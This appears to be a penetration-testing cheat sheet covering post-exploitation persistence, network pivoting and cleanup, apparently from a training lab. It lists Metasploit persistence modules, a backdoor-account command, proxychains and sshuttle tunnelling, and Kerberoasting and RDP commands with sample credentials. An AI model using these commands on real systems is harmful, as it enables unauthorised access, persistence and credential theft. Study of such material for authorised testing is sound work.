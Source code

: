 ##   Maintaining Access Overview
- Persistence script (avoid if other ways)
	- run persistence -h
	- exploit/windows/local/persistence
	- exploit/windows/local/registery_persistence
- Scheduled Task
	- run scheduleme
	- run schtaskabuse
- Add a user (prefer this)
	- net user hacker password123 /add

##   Pivoting 
- Proxychains
	- `cat /etc/proxychains4.conf` -- at the end look for `socks4 127.0.0.1 [port]` -- this port is imp (here 9050)
	- `ssh -f -N -D 9050 -i [id_rsa file] root@[target IP]` -- to establish the connection on target machine
	- `proxychains nmap -p88 [Your IP]`
	- `proxychains nmap [Your IP] -sT`
	- `proxychains GetUserSPNs.py MARVEL.local/tstark:'passw0rd@123' -dc-ip [Your IP] -request`
	- `proxychains xfreerdp /u:administrator /p:'Hacker321!' /v:[Your IP]`
	- `proxychains firefox` -- if there are we addresses on the network, we could access them
- sshuttle
	- `sudo apt install sshuttle`
	- `sshuttle -r root@[target IP] [subnet of the IP that we know] --ssh-cmd "ssh -i [KEYFILE or id_rsa]"`
	- `nmap [target IP] -p88`

##   Cleaning Up
- Make network/system as it was when you entered it
	- Remove executables, scripts and files
	- Remove malware, rootkits and added user accounts
	- Set settings back to original configurations